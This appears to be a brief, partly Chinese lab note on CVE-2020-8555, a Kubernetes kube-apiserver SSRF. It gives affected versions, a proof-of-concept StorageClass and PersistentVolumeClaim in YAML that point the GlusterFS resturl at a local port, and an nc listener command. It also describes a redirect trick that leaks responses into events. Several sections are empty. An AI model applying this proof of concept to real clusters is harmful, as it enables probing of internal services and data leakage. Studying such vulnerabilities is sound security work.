

# CVE-2020-8555

## Experiment Environment

Affected Versions

- kube-apiserver v1.18.0-1.18.5
- kube-apiserver v1.17.0-1.17.8
- kube-apiserver v1.16.0-1.16.12
- all kube-apiserver versions prior to v1.16.0

## Description

kubernetes中对象

```yaml
apiVersion: storage.k8s.io/v1
kind: StorageClass
metadata:
  name: poc-ssrf
provisioner: kubernetes.io/glusterfs
parameters:
  resturl: "http://127.0.0.1:8080"
```

```yaml
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: poc-ssrf
spec:
  accessModes:
  - ReadWriteOnce
  volumeMode: Filesystem
  resources:
    requests:
      storage: 8Gi
  storageClassName: poc-ssrf
```

pvc匹配对应的storage对象，然后产生对应的PersistentVolume

## Install & Configuration

## Pocs

### 最简单的ssrf

```sh
nc -lt 127.0.0.1 8080
kubectl apply -f deployment.yaml
```

### 改变POST方法为GET方法

在8080端口部署一个服务，该服务返回重定向到其他服务，则方法可变为GET方法。



有可能将内容泄露在event中

## Vulnerability Details & Patch

不再event一些内容

## Root cause

